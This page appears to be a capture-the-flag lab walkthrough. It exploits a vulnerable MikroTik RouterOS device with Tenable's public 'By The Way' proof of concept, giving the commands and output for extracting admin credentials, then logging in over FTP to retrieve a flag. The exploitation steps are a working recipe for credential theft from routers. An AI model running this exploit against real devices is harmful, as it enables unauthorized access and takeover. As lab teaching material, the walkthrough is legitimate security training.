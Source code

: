 +++
title = "Exploitation"
date = 2021-10-18T20:39:54-06:00
weight = 10
+++


After searching online, we find that the version of Mikrotik/RouterOS should be vulnerable to an exploit called "By The Way"
### Exploitation

The following versions of Router OS are vulnerable to "ByTheWay" exploit:
```
Longterm: 6.30.1 - 6.40.7
Stable: 6.29 - 6.42
Beta: 6.29rc1 - 6.43rc3
```

The Tenable security team has created a POC for the "By The Way" exploit, found here: <a href="https://github.com/tenable/routeros/tree/master/poc/bytheway">https://github.com/tenable/routeros/tree/master/poc/bytheway</a>

The repo is already cloned, and the exploit compiled.

1. Navigate to `~/routeros/poc/bytheway/build`
```
cd ~/routeros/poc/bytheway/build
```

2. Run the exploit against the Mikrotik
```
./btw -i 172.21.0.4
```

You should see the following:
```
./btw -i 172.21.0.4

   ╔╗ ┬ ┬  ┌┬┐┬ ┬┌─┐  ╦ ╦┌─┐┬ ┬
   ╠╩╗└┬┘   │ ├─┤├┤   ║║║├─┤└┬┘
   ╚═╝ ┴    ┴ ┴ ┴└─┘  ╚╩╝┴ ┴ ┴

[+] Attempting to connect to 172.21.0.4:8291
[+] Extracting user.dat...
[+] Searching for administrator credentials
[+] Using credentials - [[[CREDENTIALS HERE]]]
[+] Creating /pckg/option on 172.21.0.4:8291
[+] Creating /flash/nova/etc/devel-login on 172.21.0.4:8291
[+] There's a light on
```

3. We see that the exploit has extracted credentials for the admin user.

4. Login to FTP using the creds you got in step 2.

```
ftp 172.21.0.4
```
Use the username and password to login.
```
Name (172.21.0.4:user): admin
331 Password required for admin
Password:
230 User admin logged in
Remote system type is UNIX.
```

Set the mode to Passive
```
ftp> passive
Passive mode on.
```

List the directory
```
ftp> ls
227 Entering Passive Mode (172,21,0,4,191,152).
150 Opening data connection
-rw-rw----   1 root     root           59 Oct 18 12:47 flag.txt
drwxrwx---   1 root     root         1024 Dec 31 18:00 flash
226 Transfer complete
```

Get the flag!
```
ftp> get flag.txt
local: flag.txt remote: flag.txt
227 Entering Passive Mode (172,21,0,4,208,214).
150 Opening ASCII mode data connection for /flag.txt (59 bytes)
226 ASCII transfer complete
59 bytes received in 0.00 secs (61.0999 kB/s)
```

Exit FTP
```
ftp> exit
221 Closing
```

5. Print the flag. Use this to solve the Hacker Challenge.
```
cat flag.txt
```
